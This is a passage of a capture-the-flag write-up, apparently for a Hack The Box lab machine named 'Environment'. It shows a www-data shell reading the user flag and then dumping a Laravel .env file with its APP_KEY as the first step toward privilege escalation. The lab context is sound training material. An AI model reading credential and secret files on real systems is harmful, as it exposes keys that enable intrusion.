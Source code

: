 ```bash
www-data@environment:/$ cat /home/hish/user.txt 
dd****************************b5
```


# Privilege escalation to hish user

As the web application is made with laravel, the database configuration it's stored in .env:

```bash
www-data@environment:~/app$ ls -l .env
-rw-r--r-- 1 www-data www-data 1177 Jan 12  2025 .env
www-data@environment:~/app$ cat .env
APP_NAME=Laravel
APP_ENV=production
APP_KEY=base64:BRhzmLIuAh9UG8xXCPuv0nU799gvdh49VjFDvETwY6k=
APP_DEBUG=true
APP_TIMEZONE=UTC
APP_URL=http://environment.htb
APP_VERSION=1.1

APP_LOCALE=en
APP_FALLBACK_LOCALE=en
APP_FAKER_LOCALE=en_US

APP_MAINTENANCE_DRIVER=file
# APP_MAINTENANCE_STORE=database

PHP_CLI_SERVER_WORKERS=4

BCRYPT_ROUNDS=12

LOG_CHANNEL=stack
LOG_STACK=single
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=sqlite
# DB_HOST=127.0.0.1
# DB_PORT=3306
# DB_DATABASE=laravel
# DB_USERNAME=root
# DB_PASSWORD=

SESSION_DRIVER=database
SESSION_LIFETIME=120
SESSION_ENCRYPT=false
SESSION_PATH=/
SESSION_DOMAIN=null

BROADCAST_CONNECTION=log
FILESYSTEM_DISK=local
QUEUE_CONNECTION=database

CACHE_STORE=database
CACHE_PREFIX=

MEMCACHED_HOST=127.0.0.1

REDIS_CLIENT=phpredis
REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379
```